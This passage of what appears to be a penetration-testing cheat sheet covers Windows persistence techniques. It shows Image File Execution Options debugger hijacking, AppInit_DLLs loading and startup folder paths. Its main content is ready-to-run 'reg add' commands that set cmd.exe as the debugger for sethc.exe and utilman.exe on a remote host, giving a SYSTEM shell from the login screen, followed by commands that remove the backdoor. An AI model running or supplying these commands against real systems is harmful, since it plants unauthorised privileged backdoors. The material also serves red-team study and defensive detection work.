 #### List Image File Execution Options (Debugger file executed when the target file is run)
```	
	HKLM\Software\MS\WindowsNT\CurrentVersion\Image File Execution Options\notepad.exe\debugger(REG_SZ = cmd.exe)
```

#### AppInit_DLLs 
Load custom DLLs each time a program runs (If it loads USER32.dll).  This is checked by most AV!

This value corresponds to files being loaded through the AppInit_DLLs Registry value. The AppInit_DLLs registry value contains a list of dlls that will be loaded when user32.dll is loaded. As most Windows executables use the user32.dll, that means that any DLL that is listed in the AppInit_DLLs registry key will be loaded also. This makes it very difficult to remove the DLL as it will be loaded within multiple processes, some of which can not be stopped without causing system instability. The user32.dll file is also used by processes that are automatically started by the system when you log on. This means that the files loaded in the AppInit_DLLs value will be loaded very early in the Windows startup routine allowing the DLL to hide itself or protect itself before we have access to the system.
```
	HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Windows\AppInit_DLLs
```

#### No-reboot sethc/utilman option using a "debugger" key  

Navigate to HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
Make key called "sethc.exe"
Make a REG_SQ value called "Debugger"
Assign it "c:\windows\system32\cmd.exe" as the value
Hit SHIFT 5 times and get a shell as nt authority\system
```	
	reg add "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"
	reg add "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"
```

Remove the debugger key
```
	reg delete "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
	reg delete "\\hostname\HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /f
```

### File Storage Locations

#### Startup Folders
```	
	#All Users - Windows XP
	C:\Documents and Settings\All Users\Start Menu\Programs\Startup

	#All Users - Windows Vista+
	C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

	#User Profile - Windows XP
	C:\Documents and Settings\<USERNAME>\Start Menu\Programs\Startup

	#User Profile - Windows Vista+
	C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
